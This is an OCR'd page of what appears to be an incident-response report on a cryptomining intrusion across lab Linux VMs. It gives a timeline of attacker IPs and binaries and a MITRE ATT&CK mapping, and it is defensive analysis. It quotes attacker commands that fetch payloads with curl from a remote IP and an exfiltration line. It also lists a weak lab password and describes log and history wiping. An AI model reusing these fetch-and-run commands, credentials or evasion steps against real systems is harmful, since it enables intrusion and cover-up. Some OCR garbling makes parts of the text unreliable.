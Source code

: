 Attack Timeline and Lateral Movement Chain



 

Timestamp	Device	Remote IP	Port	Action / Binary
Feb 20, 2025	levi-linux-
vulnerability	87.120.116.35	42	./YAvdMwRw
Feb 20, 2025	levi-linux-
vulnerability	80.76.51.5	80	curl -s
80.76.51.5/.x/black3
Mar 4, 2025	linux-program-
fix	196.251.73.38	42	./MNFleGNm
Mar 4, 2025	linux-program-
fix	196.251.73.38	1337	./MNFleGNm
Mar 7, 2025	linux- programatic-
ajs	196.251.73.38	42	./AqsEUmKy
Mar 7, 2025	linux- programatic-
ajs	196.251.73.38	1337	./AqsEUmKy
Mar 13, 2025	linuxvmdavid	196.251.73.38	42	./oGBeupSS
Mar 13, 2025	linuxvmdavid	196.251.73.38	1337	./oGBeupSS
Mar 13, 2025	linux- programatical- vul- remediation-
lokesh	87.120.116.35	1418	/var/tmp/.update- logs/Update
Mar 13, 2025	nux- programatical- vul- remediation-
lokesh	80.76.51.5	80	curl -s 80.76.51.5/.x/black3
Mar 14, 2025	sakel-lunix-2	196.251.73.38	42	./UpzBUBnv
Mar 14, 2025	sakel-lunix-2	196.251.73.38	1337	./UpzBUBnv
Mar 14, 2025	sakel-lunix-2	196.251.73.38	47	curl --silent save-
data exfil
 
MITRE ATTsCK Mapping
The following diagram visualizes the observed attack progression based on MITRE ATTCCK phases and our detection data. It summarizes the student’s activity from reconnaissance to crypto-mining execution


Tactic	Technique	Observations
Initial
Access	T1078 - Valid Accounts	SSH brute-force using weak lab credentials
(labuser / Cyber23!).
	T1190 - Exploit Public-
Facing App	Initial compromise via levi-linux-vulnerability
(SSH/web service exposure).
Execution	T1059 - Command and
Scripting Interpreter	.diicot, .retea, .balu payloads executed with
bash, curl, wget.
	T1203 - Exploitation for
Client Execution	curl/wget direct payload fetching and
execution.
Persistence	T1053.003 - Scheduled
Task / Cron	Malicious cron jobs on multiple VMs (e.g.,
linuxvmvulnerability-test-corey).
	T1070.004 - Indicator
Removal on Host	.bash_history wiped, logs cleared post-
execution.
Defense
Evasion	T1562.004 - Disable or
Modify System Firewall	iptables rules used to block Azure Metadata
(168.63.129.16).
	T1070.003 - Clear
Command History	History wiping confirmed.
 